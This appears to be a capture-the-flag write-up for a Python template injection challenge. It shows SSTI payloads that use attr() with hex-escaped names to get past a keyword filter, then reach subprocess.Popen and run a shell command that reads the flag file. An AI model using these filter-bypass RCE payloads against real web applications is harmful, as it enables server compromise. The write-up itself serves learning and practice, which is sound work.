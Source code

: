 This is a *template injection* challenge.

Challenge description--

![Alt_Text](https://i.imgur.com/ic7coj4.png)

Challenge url--

![Alt_Text](https://i.imgur.com/sDtGnmo.png)

According to the source code, our payload is rendered as template. Let's test with basic payload `{{7*7}}`. It returns 49. 

![Alt_Text](https://i.imgur.com/6G2C9GF.png)

There is also some filters. Since `las,bas,bal` are banned, we can't use `class,base,global`. We can bypass this with `attr()`. Let's check the subclasses `{{()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')()}}`.

![Alt_Text](https://i.imgur.com/P7Rc64l.png)

I found the index of `<class 'subprocess.Popen'>` at 360. Our final payload -> `{{()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')()|attr('__getitem__')(360)("cat flag.txt",shell=True,stdout=-1)|attr('communicate')()}}`.

![Alt_Text](https://i.imgur.com/xelQWh5.png)

Flag: `ictf{:rooYay:_:rooPOG:_:rooHappy:_:rooooooooooooooooooooooooooo:}`

Thank you for reading! :cowboy_hat_face: :cowboy_hat_face:



